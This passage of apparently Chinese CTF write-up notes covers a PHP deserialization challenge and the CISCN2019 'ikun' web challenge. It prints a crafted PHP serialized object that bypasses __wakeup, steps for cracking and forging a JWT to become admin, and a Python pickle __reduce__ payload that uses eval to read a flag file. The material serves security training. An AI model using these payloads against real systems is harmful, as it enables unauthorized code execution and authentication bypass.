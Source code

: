 ```
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
```

php反序列化，直接写$a=new Name(admin,100)，反序列化输出即可，然后因为需要绕过wakeup和private，需要改数量，然后在类名两边加%00

O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}

### [CISCN2019 华北赛区 Day1 Web2]ikun

进去是页面，需要购买lv6，写py代码遍历查找

找到后点击购买，页面有js代码计算折扣价格，改折扣，提交后说需要admin

抓包看头，有JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEyMyJ9.t_quUTD2cAx9tGvCi1tmfSmgP_z_hr2N8lx_Ij5bh78

可爆破出密钥，jwt craker  https://jwt.io/输入密钥和jwt，修改用户为admin，拿到源码地址。

```python
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated  
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become)) //反序列化
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
payload:
import pickle
import urllib

class Test(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()" ,))

a = Test()
s = pickle.dumps(a)
print(urllib.quote(s))
```


[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604